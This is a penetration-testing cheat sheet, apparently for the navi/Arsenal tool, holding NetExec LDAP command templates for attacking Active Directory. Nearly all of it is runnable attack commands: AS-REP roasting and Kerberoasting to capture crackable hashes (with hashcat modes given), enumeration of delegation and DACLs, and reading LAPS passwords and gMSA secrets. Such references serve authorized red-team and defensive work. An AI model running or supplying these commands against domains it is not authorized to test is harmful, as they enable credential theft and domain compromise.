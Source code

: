 # nxc

% nxc-ldap, netexec, windows, Active directory
#plateform/linux #target/remote #port/389 #port/639 #protocol/ldap #cat/RECON 


## ldap - LDAP connection
edit /etc/hosts
```bash
nxc ldap <ip> -u <user> -p <password> -d <domain> --no-smb
```

## ldap - LDAP Machine Account Quota
```bash
nxc ldap <ip> -u <user> -p <password> -d <domain> --no-smb -M MAQ
```

## ldap - ASREPRoast enum without authentication
User can be a wordlist too (user.txt)
Hashcat format  -m 18200 
```bash
nxc ldap <ip> -u <user> -p '' --asreproast ASREProastables.txt --kdcHost <dc_name>
```

## ldap - ASREPRoast enum with authentication
Hashcat format  -m 18200 
```bash
nxc ldap <ip> -u <user> -p '<password>' --asreproast ASREProastables.txt --kdcHost <dc_name>
```

## ldap - Kerberoasting
Hashcat format  -m 13100
```bash
nxc ldap <ip> -u <user> -p '<password>' --kerberoasting kerberoastables.txt --kdcHost <dc_name>
```

## ldap - Unconstrained delegation
List of all computers et users with the flag TRUSTED_FOR_DELEGATION
```bash
nxc ldap <ip> -u <user> -p '<password>' --trusted-for-delegation
```


## ldap - read DACLs of an account
```bash
nxc ldap <dc_name> -k --kdcHost <dc_name> -M daclread -o TARGET=<user> ACTION=read
```


## ldap - read DACLs of an principal has over a target
```bash
nxc ldap <dc_name> -k --kdcHost <dc_name> -M daclread -o TARGET=<target_user> -o PRINCIPAL=<user> ACTION=read
```

## ldap - read LAPS
```bash
nxc ldap <dc_name> -k --kdcHost <dc_name>  -u <user> -p '<password>'  --module laps
```


## ldap - read gmsa
```bash
nxc ldap <dc_name> -k --kdcHost <dc_name>  -u <user> -p '<password>'  --gmsa
```